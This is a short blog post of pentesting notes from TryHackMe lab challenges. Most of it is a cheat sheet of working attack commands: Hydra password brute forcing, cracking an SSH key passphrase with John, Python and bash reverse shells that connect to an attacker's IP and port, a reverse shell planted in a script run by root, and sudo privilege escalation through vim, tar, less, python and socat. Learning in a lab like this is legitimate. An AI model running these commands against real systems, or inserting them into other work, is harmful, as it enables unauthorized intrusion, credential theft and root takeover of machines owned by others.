 ```yaml
---
title: "Basic Cybersecurity Notes"
date: 2021-12-04T21:03:50+01:00
---
```


# PREFACE \n

This post contains some notes I have taken while doing some THM(Try Hack Me) challenges \n

# NMAP Basic scan with outfile \n

nmap -sC -sV -oN /path/to/file ip

# Enum4linux-ng


**_enumerating smb clients and servers_**

_use example_

python3 enum4linux-ng.py -U -A -R ip

# Hydra example

hydra -l username -P /path/to/wordlist proto://ip

# Cracking the passphrase of an rsa key with John

sh2john.py rsa_file > file.txt
john file.txt

# Checkin for suid on a system run the following commands
find / -perm -u=s -type f 2>/dev/null

# Different ways to read a file

while read line; do echo $line done; < file
cat file
grep . file


# Pentestmonkey reverse shell examples
_in python it would be, note that if the machine doesnt have python2 installed(modern machines) it works with python3_

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


# Privilege scalation with vim

there are 2 ways of running a shell as root with vim

## _First option_
sudo vim 
 -> :set shell=/bin/sh
 -> :shell

## _Second option_
sudo vim -c ':!/bin/sh'


# Privilege scalation with tar

If the user is allowed in the sudoers file we can easily become root by running _sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh_

# Using and understanding netcat

to set up a listening port in nc

nc -lnvp portnumber

# Read pcaps

Could use wireshark

If you are looking for a password strings will just do the job for it and it will provide more clarity

# Bash remote shell

echo 'bash -c "bash -i >& /dev/tcp/ip/port 0>&1"' > /path/to/script run by root

# Privesc with less
you can run less with _sudo_ against a file and enter in less's command mode by typing !/bin/sh

Example

sudo less file.log
!/bin/sh

# GTFOs bin with python

In order to get a privileged shell with python (only if it has the suid set) we can run

python -c 'import os; os.system("/bin/sh")'

# Stable shell with pty

When we stabblish the first shell with nc it tends not to have a pty which for some porcesses it can be stressful

to solve that you can run this python adhoc command python -c 'import pty; pty.spawn("/bin/bash")' which gets you a tty that lets you freely run all the commands you need without prompting any error nor warning about not having a tty


# Socat GTFO bin

To get a remote shell on a machine using socat you need to run this
this is run on your local machine

socat file:`tty`,raw,echo=0 tcp-listen:$port

this is run on the remote machine
sudo /usr/bin/socat tcp-connect:$yourIP:$yourport exec:sh,pty,stderr,setsid,sigint,sane
